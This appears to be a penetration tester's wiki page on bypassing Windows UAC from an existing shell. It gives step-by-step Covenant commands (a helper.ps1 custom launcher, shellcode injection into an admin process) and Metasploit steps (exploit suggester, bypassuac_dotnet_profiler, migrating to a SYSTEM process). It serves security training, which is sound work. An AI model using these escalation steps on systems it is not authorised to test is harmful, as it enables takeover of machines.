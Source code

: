 # UAC Bypass

- We assume that we already have a shell on the target

## With Covenant

- Get the helper.ps1 script with Powershell Import
- Copy an encoded launcher from the Launchers session of Covenant
- Type this command and append it with your launcher and close the quote `PowerShell helper -custom "cmd.exe /c <Launcher-HERE>"`
- You will get a shell as the same user but your shell will be in an administrative user context
- If you type `ps` you should be able to see also admin process
- To have an admin shell we can download a grunt as a shellcode
- To do so, We go to grunt we select shellcode we click on generate and we download the bin
- Then back on the shell, we Type `inject` in the most recent shell and select the binary then use a process number with admin privileges click on execute
- We should have a shell as system

## With Metasploit

- Interact with the current session using `session -i id-of-session`
- type `run post/multi/recon/local_exploit_suggester `
- We should see in the list this if the target is vulnerable
  ```
  [+] 192.168.3.4 - exploit/windows/local/always_install_elevated: The target is vulnerable.
  [+] 192.168.3.4 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
  ```
-  Ctrl Z the session
- `use exploit/windows/local/bypassuac_dotnet_profiler`
- set the session to the id of the one we have on the target
- and then exploit -j  
- We should have a new session
- We are not admin yet but we have and administrative user context
- List processes using `ps` and find one with admin rights remember the process id
- type `migrat process-id`
- if you type `getuid` you should have authority system

## Resources

- To understand more about Fodhelper
{% embed url="https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/" %} Bypassing Defender The Easy Way – FodHelper by Joe Helle {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
